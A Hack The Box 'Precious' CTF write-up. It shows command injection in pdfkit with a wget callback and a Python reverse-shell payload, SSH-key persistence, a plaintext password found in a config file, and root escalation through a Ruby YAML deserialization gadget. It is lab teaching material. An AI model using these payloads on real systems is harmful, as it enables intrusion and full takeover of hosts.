





[hackthebox - easy] precious
----------------------------

The first step I take is scanning the provided IP to see what's happening in the machine:

```
┌──(j㉿kali)-[~/Desktop/HTB/precious]
└─$ nmap -sC -sV -oN nmap_info.txt 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-27 22:40 -03
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.47 seconds
```

The host seems to be down and when I access it in the browser I'm redirected to http://precious.htb, so I change the /etc/hosts file to relate the IP to the address. After that, I run the scan against the address and get this:

```
┌──(j㉿kali)-[~/Desktop/HTB/precious]
└─$ nmap -sC -sV -oN nmap_info.txt precious.htb  
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-27 22:44 -03
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.20 seconds
```

Upon the website that's being served on port 80, I find:


So I start a python simple http server on my machine with the VPN provided IP as source, just to test a few things:

```
┌──(j㉿kali)-[~/Desktop/HTB/precious/tmp]
└─$ python3 -m http.server 9000 --bind 10.10.14.12
Serving HTTP on 10.10.14.12 port 9000 (http://10.10.14.12:9000/) ...
```

I put the address http://10.10.14.12:9000/ as the input in http://precious.htb/, a new page opens up in firefox and I get:



On my local server, I get:



So yeah, with this I kinda understand how the website works, if there are any files in the folder where my server is being served, I get them listed in the PDF with a link (of my server) to download them. I dig a bit and try a few things in order to exploit this, but I only progress when I check the console in one of the generated PDF's page and find:



Upon searching "pdfkit v0.8.6 exploit", I find [this website](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795).

To test this exploit, I pass the following as argument at http://precious.htb/:

```
http://10.10.14.12:9000/?name=#{"%20`wget http://10.10.14.12:9000/?exp=$(whoami)`"} 
```

That way I get two requests on my server, one of them passing the "exp" variable which is the response to the "whoami" command that i send in. When I run this, I get the following on my server:



And it seems, user ruby is the one running things!!!

So the next step is try for a reverse shell on this machine. I will first probe it to see what kind of tools it has to help me in this mission. I change the "whoami" command for "which nc", "which php" and "which python3" respectively to see if any of those are available and this is what I get:



So it seems only python3 was available, which is enough, so I proceed to use netcat on my local machine:

```
┌──(j㉿kali)-[~/jno3.github.io/writeups/images]
└─$ nc -s 10.10.14.12 -lvp 4444
listening on [10.10.14.12] 4444 ...
```

And run the following as payload into the website:

```
http://10.10.14.12:9000/?name=#{"%20`python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.14.12",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh");'`"}
```

And like so, I get a message on my machine:

```
┌──(j㉿kali)-[~/jno3.github.io/writeups/images]
└─$ nc -s 10.10.14.12 -lvp 4444
listening on [10.10.14.12] 4444 ...
connect to [10.10.14.12] from precious.htb [10.10.11.189] 40730
$ 
```

I have the shell as user ruby, so the first things I do is create a stable shell with python and create a .ssh folder in /home/ruby, where I'll add my public keys:

```
┌──(j㉿kali)-[~/jno3.github.io/writeups/images]
└─$ nc -s 10.10.14.12 -lvp 4444
listening on [10.10.14.12] 4444 ...
connect to [10.10.14.12] from precious.htb [10.10.11.189] 45098
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
ruby@precious:/var/www/pdfapp$ cd ~    
cd ~
ruby@precious:~$ mkdir .ssh
mkdir .ssh
ruby@precious:~$ 
```

On my local computer, I generate the public and private ssh keys:

```
┌──(j㉿kali)-[~/Desktop/HTB/precious/tmp]
└─$ ssh-keygen -t rsa              
```

Then I read and copy the public ssh key and past it in the victims machine /home/ruby/.ssh/authorized_hosts:

```
ruby@precious:~$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCOERHa21bxv/cq1UNyLZ4h32ZF05kjbTgJ/xLHRYTxcyTNFKrb/0J3iJc65DB5lQXFY8Dlslr4NkM68ibhcMuxPUxUXReU+03Y5mtUkF6udRVsHJrdBUmZPuvV/UQcqLDjNHBUF6LldjW7frX4UBuQKemeRdbMDqOtjduNOSUktP/KfqcI4dGJtZ31uttfAjVCNsuJwxd8pCRrTheJVheEqJV1dknUVDo9o+eUaorGDyHfhTICk+ZduVbHregopI7HKbyfI6XQ44flGg1MGxZkd8ZHxFAYOdhMBEzhiuQPqjthIxr9hxIjigI5Mf/Ofm995L0yFjkZ4zNw2h+nYuyWMfXd9lBziU2u2lDTbOUoRiZJyLbGttsXCqHufKUk1/vWBmE255jMXJis3JeOdhXgj5r5be0o6waXCiVShmFHOfZgGLrdll8A7AlQf3P4JFJqdHcvjIYMFEThV0qTEri+UJo2LIo2FHJggfb8KbZ0TzvecijL6QDzboEIBO1K5v0= j@kali" > /home/ruby/.ssh/authorized_keys
<IBO1K5v0= j@kali" > /home/ruby/.ssh/authorized_keys
ruby@precious:~$ 
```

And log in via ssh from my machine:

```
┌──(j㉿kali)-[~/Desktop/HTB/precious]
└─$ ssh -i id_rsa ruby@10.10.11.189
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ruby@precious:~$ 
```

Upon investigation, I realize that user ruby doesn't have the user flag, but instead there is another directory inside /home named "henry". the user flag is there but ruby has no access to it:

```
ruby@precious:~$ cat /home/henry/user.txt
cat: /home/henry/user.txt: Permission denied
```

In order to get the user flag I do a whole lot of things, I download linpeas and pspy to check on what can be explored, check on cron jobs, capabilities and suid binaries but to no avail, so I decide to do a little digging, and I find inside ruby's home directory a directory named .bundle, inside of it there is a file named config, that reveals henry's password:

```
ruby@precious:~$ cat .bundle/config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

And with that info, I log as henry:

```
ruby@precious:~$ su - henry
Password: 
henry@precious:~$ 
```

I get the user flag and put it into the HTB platform and proceed to privilege escalation.

When I run "sudo -l" as henry, I find out that there's a ruby code that I can run:

```
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

The ruby code reads:

```rb
# Compare installed dependencies with those specified in "dependencies.yml"                                                                                                                                                                 
require "yaml"                                                                                                                                                                                                                              
require 'rubygems'                                                                                                                                                                                                                          
                                                                                                                                                                                                                                            
# TODO: update versions automatically                                                                                                                                                                                                       
def update_gems()                                                                                                                                                                                                                           
end                                                                                                                                                                                                                                         
                                                                                                                                                                                                                                            
def list_from_file                                                                                                                                                                                                                          
    YAML.load(File.read("dependencies.yml"))                                                                                                                                                                                                
end                                                                                                                                                                                                                                         
                                                                                                                                                                                                                                            
def list_local_gems                                                                                                                                                                                                                         
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}                                                                                                                                        
end                                                                                                                                                                                                                                         
                                                                                                                                                                                                                                            
gems_file = list_from_file                                                                                                                                                                                                                  
gems_local = list_local_gems                                                                                                                                                                                                                
                                                                                                                                                                                                                                            
gems_file.each do |file_name, file_version|                                                                                                                                                                                                 
    gems_local.each do |local_name, local_version|                                                                                                                                                                                          
        if(file_name == local_name)                                                                                                                                                                                                         
            if(file_version != local_version)                                                                                                                                                                                               
                puts "Installed version differs from the one specified in file: " + local_name                                                                                                                                              
            else                                                                                                                                                                                                                            
                puts "Installed version is equals to the one specified in file: " + local_name                                                                                                                                              
            end                                                                                                                                                                                                                             
        end                                                                                                                                                                                                                                 
    end                                                                                                                                                                                                                                     
end
```

I don't know much about ruby, but the only thing that I can control in this code is overt the file used in the YAML.load function, in something that I presume is like library hijacking in Python. So I proceed to google for "YAML hijacking", "yaml exploit ruby" and such to see if I can get anything and it turns out there is a [possible way to do blind RCE through YAML deserialization](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/). So, after taking a while to realize that the "dependencies.yml" file can be loaded from wherever directory I'm currently at, I create a "dependencies.yml" in /home/henry/ that reads:

```
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash'"
         method_id: :resolve
```

After that, I run "sudo -u root /usr/bin/ruby /opt/update_dependencies.rb" from the same directory where I created "dependencies.yml":

```
henry@precious:~$ sudo -u root /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root@precious:/home/henry# cd /root
root@precious:~# ls
root.txt
root@precious:~# 
```

And just like that I get the root flag from this machine.